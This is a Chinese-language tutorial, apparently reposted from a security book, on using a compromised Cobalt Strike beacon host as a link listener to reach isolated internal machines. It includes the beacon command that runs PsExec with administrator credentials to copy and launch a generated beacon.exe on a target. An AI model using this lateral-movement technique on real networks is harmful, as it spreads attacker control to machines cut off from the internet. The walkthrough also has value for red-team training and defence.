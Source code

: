 # Cobalt Strike Link Listener

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/7.html](http://book.iwonder.run/Tools/Cobalt Strike/7.html)

实战中往往还会遇到通过某种方式，获取到目标内网中某台主机的系统权限，但是该主机处在隔离网络中，不能出网。因为 CobalStrike 服务端是搭建在互联网中的，通过常规方式是无法上线的，这里就需要利用已上线的主机，将它做一个 Listener，实现链路上线 CobalStrike。

> 首先，在已上线的主机创建 Listener，监听端口可自定义。

![image](img/959239392ccf02e74f24c4ee46454c6e.png)

> 择 Attacks->Packages->Windows Executable(Stageless)，支持导出该类型 Listener 对应的可执行文件或 dll 等。

![image](img/a79b5ca9e6d544539f1791a0bd254d84.png)

> 注意，选择刚建立的 Listener 名字，Proxy 可不设置，这里生成 exe 保存本地。(未免杀)

![image](img/311975a037be5243b0bfac14e5abd626.png)

> 上传刚才生成的 payload 到当前已上线的目标机中，还需要上传另一个工具 PsExec.exe 。（CobalStrike 本身 psexec 功能不够强大，且方法不唯一）

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec](https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec)

![image](img/3e393b759a7bf3f103b740e68ed6b378.png)

> 在 Beacon 中使用 PsExec 工具将 payload 上传到不出网的目标机中，自动执行，上线。

```
beacon> shell C:\WINDOWS\Temp\PsExec.exe -accepteula \\192.168.144.155,192.168.144.196 -u administrator -p admin@123 -d -c C:\WINDOWS\Temp\beacon.exe 
```

![image](img/10b6fdf83900a2e37fbb3c772a00b96d.png)

> 端口查看，实际不出网目标机（192.168.144.196）是与出网目标机（192.168.144.155）正在建立连接。

```
beacon> shell netstat -ano |findstr 4444 
```

![image](img/0bd1649121d6157c9e7de28052266406.png)

> 因为这是 link 链接，只要主链路（即出网机 Listener）掉线，就都会掉线！

